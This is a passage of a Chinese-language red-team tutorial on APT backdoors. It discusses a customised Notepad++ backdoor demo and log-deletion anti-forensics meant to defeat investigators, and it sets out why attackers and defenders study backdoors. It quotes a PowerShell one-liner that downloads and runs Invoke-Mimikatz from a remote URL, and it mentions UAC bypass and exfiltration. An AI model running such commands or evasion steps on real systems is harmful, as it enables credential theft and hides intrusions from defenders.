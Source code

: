 能适应大部分客户，适应市场化，并且适应大部分机器。（包括不限制于资源紧张,宽带不足等问题的客户）

**4、安全人员的本质是什么?**

赚钱，养家。买房，还房贷。导致，快速解决客户问题（无论暂时还是永久性解决），以免投诉。

**5、对接客户的本质是什么?**

对接客户也是某公司内安全工作的一员、与概念4相同。

**6、线索排查与反线索排查**

那么这个demo离可高级可持续性渗透后门还有一段距离，这里引入第六条`线索排查`与`反线索排查`,在第二季的dem中，它生成了一个名为 micropoor.的文件，如果经验丰富的安全人员可根据时间差来排查日记，demo的工作流程大致是这样的，打开 notepad++，生成 micropoor. txt，写入内容，关闭文件流。根据线索排查，定位到 notepad++，导致权限失控。

在线索排查概念中，这里要引入“ABC”类线索关联排查，当防御者在得到线索A，顺藤到B，最后排查到目标文件C，根据五条中的第一条，demo要考虑如何删除指定日志内容，以及其他操作。来阻止ABC类线索关联排查。

**不要思维固死在这是一个 notepad++后门的文章，它是一个面向类后门，面向的是可掌握源码编译的类后门。**

同样不要把思维固定死在demo中的例子，针对不同版本的NT系统，完全引用"powershell IEX(New-Object System.Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/clymb3r/Powershell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1’);Invoke-Mimikatz"而关于bypass UAC，已经有成熟的源码。或发送至远程或是写在本地的图片里，不要让知识限制了后门的想象。这也正是第一季所说的：一个优秀的 Microdot是量身目标制定且一般不具备通用性的。一般不具备通用性。

观看目前文章的一共有2类人，一类攻击方，一类防守方。假设一个场景，现在摆在你面前有一台笔记本，并且这台笔记本有明确的后门，你的任务，排查后门。我想所有人都会排查注册表，服务，端口，进程等。因为这些具备通用性，也同样具备通用性排查手段。

临近文章结尾，第三次引用：在后门的进化对抗中，rootkit发生了变化，最大的改变是它的系统层次结构发生了变化。

* * *

#### 7.2.4 APT对抗（四）红蓝对抗关于后门对抗

第四季是一个过渡季，过渡后门在对抗升级中由传统后门，衍生成锁定目标的制定后门。

引用百度百科的“后门程序"的相关解释 ：

    https://baike.baidu.com/item/%E5%90%8E%E9%97%A8%E7%A8%8B%E5%BA%8F/108154
    
        

安全从业人员，其实至少一直在与传统后门对抗，比如最常见的webshell免杀与webshell过waf。应急中的样本取证查杀远控残留文件等。但是webshell，远控仅仅又是“backdoor”的其中一种。

这里按照上几季的风格继续引用几个概念，只有概念清晰，才能了解如何对抗。

**1：安全从业人员为什么要了解后门？**

防御是以市场为核心的，而不是以项目为核心。需要对抗的可能是黑产从业者的流量劫持相关后门，或者是政治黑客的高持续渗透权限把控后门等。

**2：攻击人员为什么要了解后门？**

随着对抗传统后门的产品越来越成熟，由特征查杀，到行为查杀，到态势感知。到大数据联合特征溯源锁定，如何反追踪，是一个非常值得思考的问题。

**3：后门与项目的关联是什么？**

某项目，被入侵，应急并加固解决，若干天后，再次被入侵依然篡改为某博彩。导致安全从业人员，客户之间的问题。

**4：后门与安全产品的关联是什么？**

某客户购买某安全产品套装，在实战中，一般由非重点关注服务器迂回渗透到核心服务器来跨过安全产品监控，得到相关权限后，后门起到越过安全产品。它会涉及对其他附属安全产品的影响。如客户质疑：为什么我都买了你们的套装，还被入侵。并且这还是第二次了。
